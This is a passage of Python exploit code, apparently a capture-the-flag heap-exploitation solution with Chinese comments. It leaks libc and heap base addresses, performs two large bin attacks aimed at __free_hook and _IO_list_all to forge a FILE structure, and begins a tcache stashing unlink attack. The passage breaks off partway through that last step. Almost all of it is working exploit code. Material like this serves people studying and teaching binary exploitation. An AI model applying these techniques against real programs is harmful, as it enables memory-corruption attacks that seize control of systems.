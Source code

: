 ```python
change(1)
add(0x430,'a'*0x160)#A16
#-----------------------leak libc and heap address-------------------------
# 然后是泄露libc_base和heap_base
# 在上一步的最后，我们申请了一个0x430大小的堆，用来将chunk放入smallbin中，这一步中，我们申请一个chunk(不影响bin)，将0x430大小的堆和top chunk隔开，然后释放掉它，两次change，然后直接show就可以打印libc上的值。heap_base泄露tcache上的堆即可
change(2)
add(0xf0,'a'*0x50)#B7# avoid top chunk
change(1)
free(16)

change(2)
change(1)
show(16)
ru("The message is: ")
libc_base=u64(p.recv(6).ljust(8,'\x00'))-(0x7ff63856abe0-0x7ff63837f000)
lg("libc_base")
system=libc_base+libc.sym['system']
lg("system")
free_hook=libc_base+libc.sym['__free_hook']
change(2)
show(1)
ru("The message is: ")
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x1eb0
lg("heap_base")
#-----------------first  large bin attack---------------------------
#第一次largebin attack，将堆地址写到了free_hook-8的位置，为了通过tcache stashing unlink attack的检查
add(0x440,'a'*0x160)#B8
change(1)
add(0x430,'a'*0x160)#A17
add(0x430,'a'*0x160)#A18
add(0x430,'a'*0x160)#A19
change(2)
free(8)
add(0x450,'a'*0x170)#B9
change(1)
free(17)
change(2)
edit(8,p64(0)+p64(free_hook-0x28)+'\n')

change(3)
add(0xa0,'a'*0x30)#C0
change(2)
edit(8,p64(heap_base+0x3c00)*2+'\n')# recover

#----------------second large bin attack---------------------------
# 第二次largebin attack,将一个堆地址写到_IO_list_all上，从而伪造FILE
change(3)
add(0x380,'a'*0x120)#C1
IO_list_all = libc_base + libc.sym['_IO_list_all']
change(1)
free(19)
change(2)
edit(8,p64(0)+p64(IO_list_all-0x20)+'\n')
change(3)
add(0xa0,'a'*0x30)#C2
change(2)
edit(8,p64(heap_base+0x3c00)*2+'\n')

#----------------tcache stashing unlink attack----------------------
change(1)
fd=heap_base+0x2260
edit(8,'a'*0x40+p64(fd)+p64(free_hook-0x20)+'\n')# headptr
```